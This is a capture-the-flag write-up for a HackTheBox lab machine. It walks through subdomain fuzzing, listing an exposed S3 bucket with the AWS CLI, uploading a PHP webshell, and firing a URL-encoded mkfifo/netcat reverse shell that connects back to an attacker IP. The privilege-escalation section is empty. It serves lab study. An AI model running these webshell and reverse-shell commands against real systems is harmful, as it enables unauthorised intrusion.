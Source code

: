# Overview
**Difficulty:** Very Easy  
**Skills:** subdomain discovery, aws cli, webshell, remote code execution  
**HTB Link:** https://app.hackthebox.com/starting-point  
**Summary:** Discovered an S3-hosted web entry, uploaded a PHP webshell and triggered a reverse shell to gain foothold.

---

# Steps

## 1. reconnaissance
**port scan**
- [nmap scan](./evidences/nmap.txt)
- OpenSSH 7.6p1 22/tcp
- Apache web server on port 80/tcp

**subdomain discovery**
- [ffuf fuzzing](./evidences/ffuf.txt)
- s3 bucket subdomain

**aws s3 ls**
- [aws s3 ls](./evidences/aws_ls.png)
- aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

## 2. resource development
**upload php script to execute cmds on server**
- [php script](./shell.php)
- aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

**listening socket for reverse shell**
- nc -nvlp 9000

## 3. initial access
**remote code execution**
- http://thetoppers.htb/shell.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.121%209001%20%3E%2Ftmp%2Ff  
- we execute the reverse shell and gain access to the system  
- cat /var/www/flag.txt  

## 4. privilege escalation
